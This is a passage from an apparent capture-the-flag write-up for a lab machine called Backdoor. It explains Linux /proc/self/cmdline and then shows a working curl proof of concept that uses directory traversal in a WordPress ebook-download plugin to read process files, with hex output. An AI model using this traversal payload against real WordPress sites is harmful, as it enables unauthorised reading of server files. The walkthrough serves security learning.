 
There’s also the `self` folder, which is a symbolic link to the pid of the
current process. Again, from my VM:

    
    
    oxdf@hacky$ ls -l /proc/self
    lrwxrwxrwx 1 root root 0 Apr 18 21:38 /proc/self -> 85664
    

In each numbered folder, the `cmdline` file has the command line user to run
the process:

    
    
    oxdf@hacky$ cat /proc/self/cmdline
    cat/proc/self/cmdline
    

It’s worth noting that there’s no space between `cat` and the path. `xxd` make
this clear:

    
    
    oxdf@hacky$ cat /proc/self/cmdline | xxd
    00000000: 6361 7400 2f70 726f 632f 7365 6c66 2f63  cat./proc/self/c
    00000010: 6d64 6c69 6e65 00                        mdline.
    

The program and the arguments are actually separated by a null byte. I’ll keep
that in mind.

#### POC on Backdoor

On Backdoor, I can do the same thing:

    
    
    oxdf@hacky$ curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline
    Warning: Binary output can mess up your terminal. Use "--output -" to tell 
    Warning: curl to output it to your terminal anyway, or consider "--output 
    Warning: <FILE>" to save to a file.
    

`curl` is not happy about putting binary data to the command line. I’ll force
it with `-o-`, and use `xxd` to look at the results:

    
    
    oxdf@hacky$ curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline -o- | xxd
    00000000: 2e2e 2f2e 2e2f 2e2e 2f2e 2e2f 2e2e 2f2e  ../../../../../.
    00000010: 2e2f 2e2e 2f70 726f 632f 7365 6c66 2f63  ./../proc/self/c
    00000020: 6d64 6c69 6e65 2e2e 2f2e 2e2f 2e2e 2f2e  mdline../../../.
    00000030: 2e2f 2e2e 2f2e 2e2f 2e2e 2f70 726f 632f  ./../../../proc/
    00000040: 7365 6c66 2f63 6d64 6c69 6e65 2e2e 2f2e  self/cmdline../.
    00000050: 2e2f 2e2e 2f2e 2e2f 2e2e 2f2e 2e2f 2e2e  ./../../../../..
    00000060: 2f70 726f 632f 7365 6c66 2f63 6d64 6c69  /proc/self/cmdli
    00000070: 6e65 2f75 7372 2f73 6269 6e2f 6170 6163  ne/usr/sbin/apac
    00000080: 6865 3200 2d6b 0073 7461 7274 003c 7363  he2.-k.start.<sc
    00000090: 7269 7074 3e77 696e 646f 772e 636c 6f73  ript>window.clos
    000000a0: 6528 293c 2f73 6372 6970 743e            e()</script>
    